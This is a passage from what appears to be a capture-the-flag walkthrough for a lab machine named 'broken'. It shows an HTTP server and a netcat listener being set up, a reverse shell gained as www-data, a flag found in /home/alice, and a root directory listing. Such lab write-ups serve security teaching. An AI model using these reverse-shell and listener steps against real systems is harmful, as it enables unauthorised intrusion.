 ```bash
python3 -m http.server 4444
```

```bash
nc -lvp 5555
```

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/013.png)  

We got the workable reverse shell.  Then go to ```/home/alice``` and we found the ```FLAG2```.  

![](https://raw.githubusercontent.com/samiux/images/master/broken-2020-1/014.png)  

Then go to ```/back``` directory and find some interesting stuff.  

```bash
www-data@broken:/$ ls -la
ls -la
total 73
drwxr-xr-x 19 root root  4096 Mar 25 19:36 .
drwxr-xr-x 19 root root  4096 Mar 25 19:36 ..
drwxr-xr-x  3 root root  4096 Mar 25 19:36 back
-rwxr-xr-x  1 root root   493 Mar 25 19:36 backup.py
lrwxrwxrwx  1 root root     7 Mar 24 08:14 bin -> usr/bin
drwxr-xr-x  4 root root  1024 Mar 24 08:28 boot
drwxr-xr-x 18 root root  3160 May  8 17:19 dev
drwxr-xr-x 81 root root  4096 May  8 17:33 etc
-rw-r--r--  1 root root     0 Mar 25 19:36 flag.txt
drwxr-xr-x  3 root root  4096 Mar 24 08:29 home
lrwxrwxrwx  1 root root    30 Mar 24 08:17 initrd.img -> boot/initrd.img-4.19.0-8-amd64
lrwxrwxrwx  1 root root    30 Mar 24 08:17 initrd.img.old -> boot/initrd.img-4.19.0-8-amd64
lrwxrwxrwx  1 root root     7 Mar 24 08:14 lib -> usr/lib
lrwxrwxrwx  1 root root     9 Mar 24 08:14 lib32 -> usr/lib32
lrwxrwxrwx  1 root root     9 Mar 24 08:14 lib64 -> usr/lib64
lrwxrwxrwx  1 root root    10 Mar 24 08:14 libx32 -> usr/libx32
drwx------  2 root root 16384 Mar 24 08:14 lost+found
drwxr-xr-x  3 root root  4096 Mar 24 08:14 media
drwxr-xr-x  2 root root  4096 Mar 24 08:14 mnt
drwxr-xr-x  2 root root  4096 Mar 24 08:14 opt
dr-xr-xr-x 94 root root     0 May  8 17:19 proc
drwx------  5 root root  4096 May  8 17:34 root
drwxr-xr-x 19 root root   580 May  8 17:19 run
lrwxrwxrwx  1 root root     8 Mar 24 08:14 sbin -> usr/sbin
drwxr-xr-x  2 root root  4096 Mar 24 08:14 srv
dr-xr-xr-x 13 root root     0 May  8 17:22 sys
drwxrwxrwt  2 root root  4096 May  8 17:19 tmp
drwxr-xr-x 13 root root  4096 Mar 24 08:14 usr
drwxr-xr-x 12 root root  4096 Mar 24 08:45 var
lrwxrwxrwx  1 root root    27 Mar 24 08:17 vmlinuz -> boot/vmlinuz-4.19.0-8-amd64
lrwxrwxrwx  1 root root    27 Mar 24 08:17 vmlinuz.old -> boot/vmlinuz-4.19.0-8-amd64
www-data@broken:/$ 
```

